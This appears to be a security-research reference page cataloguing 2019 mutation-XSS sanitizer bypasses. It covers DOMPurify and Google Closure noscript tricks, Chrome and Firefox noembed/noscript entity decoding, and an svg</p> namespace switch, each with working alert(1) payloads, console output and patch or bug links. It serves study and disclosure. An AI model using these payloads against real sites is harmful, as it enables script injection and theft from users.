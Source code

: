 

### Masato DOMPurify Closure  Bypass and Google XSS Feb 2019 

**Description:**  
In the browser's DOMParser API, the JavaScript is considered disabled, content inside the \<noscript\> tag is interpreted as RAWTEXT. So, When using DOMParser, everything inside \<noscript\> is treated as raw text. However, once inserted into the page with JavaScript enabled, the contents of the \<noscript\> tag are re-parsed and executed as HTML.

**Google XSS Payload: Closure sanitization bypass**  
```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```
**Link to patch**:   
https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa

**Dompurify bypass Payload:**  
```js
> DOMPurify.sanitize("a<noscript><p id='</noscript><img src=x onerror=alert(1)>'></p></noscript>", {ADD_TAGS: ['noscript']});
< "a<noscript><p id="</noscript><img src=x onerror=alert(1)>"></p></noscript>
```

### Masato noembed MXSS in FF and Chrome Feb 2019

**Description:**  
	*Chrome decodes HTML entities inside \<noembed\> tags when it is parsed by DOMParser APIs.*   
	*Firefox decodes HTML entities inside \<noscript\> tags when it is parsed by DOMParser APIs.* 
**Payload:**  
```js
	> new DOMParser().parseFromString('A <noembed> B &lt;/noembed&gt; C &lt;img src=x onerror=alert(1)&gt;  D </noembed> E','text/html').body.innerHTML
< "A <noembed> B </noembed> C <img src=x onerror=alert(1)>  D </noembed> E"
A <noscript> B &lt;/noscript&gt; C &lt;img src=x onerror=alert(1)&gt; D </noscript> E
```
**Links:**  
	[https://issues.chromium.org/issues/40090296](https://issues.chromium.org/issues/40090296)  
	https://bugzilla.mozilla.org/show\_bug.cgi?id=1528997

 ### <svg></p> MXSS 2019 SecurityMB:

**Chrome bug:** https://issues.chromium.org/issues/40050167

**Switch:** SVG to HTML

**Payload:**
```html
	<svg></p><style><g title="</style><img src onerror=alert(1)>">
```
#### Description:
- `<svg><p>` gets parsed to: `<svg></svg><p></p>`
- However, interesting thing happens if you put closing tag `</p>` in `<svg>`:
- `<svg></p>` gets parsed to `<svg><p></p></svg>`.
- So now the opening `<p>` is within `<svg>` which means that it will get out eventually when it is written to the DOM tree.
